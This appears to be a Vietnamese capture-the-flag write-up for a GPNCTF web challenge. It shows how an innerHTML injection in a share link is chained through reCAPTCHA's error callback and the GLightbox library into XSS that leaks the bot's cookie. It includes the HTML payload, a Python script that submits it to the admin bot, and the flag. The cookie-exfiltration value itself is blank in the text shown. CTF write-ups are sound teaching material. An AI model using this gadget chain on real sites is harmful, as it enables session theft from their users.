




### Phân tích 

Người dùng nhập message và share link, URL có dạng:

```text
/?shareText=<message>
```

Khi mở lại URL này, nội dung trong `shareText` được đưa vào DOM bằng `innerHTML`. Vì vậy ta có thể inject HTML vào trang.

Trong trang có hai thư viện:

```text
Google reCAPTCHA
GLightbox
```

Ta có thể chain hai thứ này để kích hoạt XSS.

### Ý tưởng khai thác

Google reCAPTCHA hỗ trợ thuộc tính:

```html
data-error-callback
```

Khi sitekey không hợp lệ, reCAPTCHA sẽ gọi function được khai báo trong `data-error-callback`.


Chain khai thác:

```text
shareText injection
- thêm input class=glightbox
- đặt XSS trong data-description
- thêm reCAPTCHA với invalid sitekey
- reCAPTCHA gọi data-error-callback="GLightbox"
- GLightbox render data-description
- XSS chạy
```

---

### Payload XSS

Payload dùng để leak cookie về webhook:

```html
<input name=vote class=glightbox data-description="">
<div class=g-recaptcha data-sitekey=x data-error-callback=GLightbox></div>
<div class=g-recaptcha data-sitekey=x data-error-callback=random></div>
<div class=g-recaptcha data-sitekey=x data-error-callback=random></div>
<div class=g-recaptcha data-sitekey=x data-error-callback=random></div>
<div class=g-recaptcha data-sitekey=x data-error-callback=random></div>
```

Trong đó:

```text
data-sitekey=x
```

làm reCAPTCHA lỗi.

Callback quan trọng là:

```text
data-error-callback=GLightbox
```

Nó gọi lại `GLightbox()` để thư viện nhận element `.glightbox` vừa được inject.

Webhook nhận được:



Vậy payload chạy thành công.

### Gửi payload cho bot

```text
/bot
```



Bot chỉ chấp nhận URL bắt đầu bằng:

```text
http://localhost:1337
```

Vì vậy không thể gửi link public dạng:

```text
https://braised-mozzarella-sticks-nestled-in-torched-soy-foam-03k8.gpn24.ctf.kitctf.de/?shareText=...
```

Mà phải đổi thành:

```text
http://localhost:1337/?shareText=...
```

### Exploit bằng Python

```python
#!/usr/bin/env python3
import requests
import urllib.parse

BASE = "https://braised-mozzarella-sticks-nestled-in-torched-soy-foam-03k8.gpn24.ctf.kitctf.de"

payload = '''<input name=vote class=glightbox data-description="">
<div class=g-recaptcha data-sitekey=x data-error-callback=GLightbox></div>
<div class=g-recaptcha data-sitekey=x data-error-callback=random></div>
<div class=g-recaptcha data-sitekey=x data-error-callback=random></div>
<div class=g-recaptcha data-sitekey=x data-error-callback=random></div>
<div class=g-recaptcha data-sitekey=x data-error-callback=random></div>'''

target = "http://localhost:1337/?shareText=" + urllib.parse.quote_plus(payload)

r = requests.get(
    BASE + "/bot/run",
    params={"url": target},
    timeout=30
)

print(r.status_code)
print(r.text)
print(target)
```

Kiểm tra webhook:



### Flag

```text
GPNCTF{why_can_recAP7CHa_Do_thAt}
```